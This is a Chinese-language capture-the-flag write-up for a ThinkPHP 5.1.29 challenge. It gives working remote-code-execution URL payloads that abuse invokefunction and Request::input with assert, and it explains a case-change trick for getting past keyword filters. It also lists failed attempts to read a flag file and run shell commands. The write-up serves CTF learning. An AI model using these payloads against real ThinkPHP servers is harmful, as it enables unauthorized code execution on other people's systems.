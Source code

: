 ::: tip
提一下，tp5 url模式不再区分大小写了，所以如果出现过滤关键词的情况，可以尝试大小写绕过，只管去做！
:::

## web 604

> 描述：未开启强制路由，举一反二

::: tip
题目里给出了tp5的版本号：版本thinkphp 5.1.29，其实不给也是可以的，通过报错使tp框架报错，通过返回的版本号直接谷歌对于漏洞打，太爽了
:::

用上一题的payload打，提示`invokefunction 这条路子不通，想想其他路子~`，使用上题提供的其他payload，也可以把`invokefunction`里替换为大写，通过url不区分大小写绕过

太好玩啦！你还有多少惊喜是我不知道的？？？

```php
?s=index/\think\app/INVokefuNcTion&function=call_user_func_array&vars[0]=assert&vars[1][]=phpinfo()
?s=index/\think\app/inVOkEFUNction&function=call_user_func_array&vars[0]=assert&vars[1][]=phpinfo()
?s=index/think\Request/input&filter=assert&data=phpinfo();
?s=index/think\Request/input&filter[]=assert&data=phpinfo();
```

我的失败尝试：

在`invokefucntion`方法下面接着看，还有`invokeMethod`,`invokeClass`

`invokeMethod`方法的定义如下，接收两个参数，第一个是类的方法，第二个是数组参数

```php
public static function invokeMethod($method, $vars = [])
{
    if (is_array($method)) {
        $class   = is_object($method[0]) ? $method[0] : self::invokeClass($method[0]);
        $reflect = new \ReflectionMethod($class, $method[1]);
    } else {
        // 静态方法
        $reflect = new \ReflectionMethod($method);
    }

    $args = self::bindParams($reflect, $vars);

    self::$debug && Log::record('[ RUN ] ' . $reflect->class . '->' . $reflect->name . '[ ' . $reflect->getFileName() . ' ]', 'info');

    return $reflect->invokeArgs(isset($class) ? $class : null, $args);
}
```

尝试了两个原生类都不行，是用法错了吗？提示方法不存在，道友们有兴趣试试

```php
?s=index/\think\app/invokeMethod&method=SplFileObject::__toString&vars[0]=php://filter/convert.base64-encode/resource=/flag
?s=index/\think\app/invokeMethod&method=Error::getmessage&vars[0]=system&vars[1][]=ls
```
